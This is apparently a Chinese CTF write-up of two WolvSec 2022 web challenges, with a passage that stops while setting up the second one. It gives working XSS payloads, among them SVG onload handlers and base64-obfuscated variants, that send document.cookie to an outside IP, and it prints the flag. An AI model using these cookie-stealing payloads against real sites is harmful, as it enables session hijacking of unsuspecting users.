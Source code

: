 payload1

```
?url=http://<svg%0Conload=eval(location.hash.slice(1))>#window.location='http://1.116.110.61:4000?cookie='+document.cookie
```

- eval执行js代码
- location.hash返回的字符串是 URL 的锚部分(从 # 号开始的部分) 这里是不检测的

payload2 未成功

```
?url=http://<svg%0Conload=document.location="http"+atob('Oi8v')+"1.116.110.61:4000"+atob('ek8v').substr(2,2)+btoa(document.cookie)>

?url=http://d.com;<svg%250conload="window.location.href=(location.href.substr(0,8).replace('s','')%252b'ip_addr'%252blocation.href.substr(5,1)%252b'1234'%252blocation.href.substr(6,1)%252bdocument.cookie)">a.c
```

- 利用base编码
- substr切割

最终payload

```
https://wsc-2022-web-5-bvel4oasra-uc.a.run.app/visit?url=https://wsc-2022-web-5-bvel4oasra-uc.a.run.app/visit?url=http://<svg%0Conload=eval(location.hash.slice(1))>#window.location='http://1.116.110.61:4000?cookie='+document.cookie
```

![image-20220329174041803](https://raw.githubusercontent.com/yongsheng220/image/main/wolvsecimage-20220329174041803.png)

FLAG：wsc{wh0_kn3w_d0m41n_x55_w4s_4_th1n6}

# Don't Only Mash... Clobber!

Submit an image link to our "evaluator" and steal their cookie!

先看代码逻辑

visit路由下同上道题目，传入一个url，bot会点开看

![image-20220329180308843](https://raw.githubusercontent.com/yongsheng220/image/main/wolvsecimage-20220329180308843.png)

personalize路由下，提交一个url，然后传入到了img标签中，然后提示没有bypass CSP的步骤

![image-20220329180345176](https://raw.githubusercontent.com/yongsheng220/image/main/wolvsecimage-20220329180345176.png)

闭合可以注入html

![image-20220329181946015](https://raw.githubusercontent.com/yongsheng220/image/main/wolvsecimage-20220329181946015.png)

然后题目还有app.js

```
window.onload = () => {
    const imgSrc = document.getElementById('user-image').src
    document.getElementById('user-image-info').innerText = imgSrc

    if (DEBUG_MODE) {
        // In debug mode, send the image url to our debug endpoint for logging purposes.
        // We'd normally use fetch() but our CSP won't allow that so use an <img> instead.
        // 在调试模式下，将图像 url 发送到我们的调试端点以进行日志记录。
        // 我们通常会使用 fetch()，但我们的 CSP 不允许这样做，所以使用 <img> 代替。
        document.getElementById('body').insertAdjacentHTML('beforeend', `<img src="${DEBUG_LOGGING_URL}?auth=${btoa(document.cookie)}&image=${btoa(imgSrc)}">`)
    }
}
```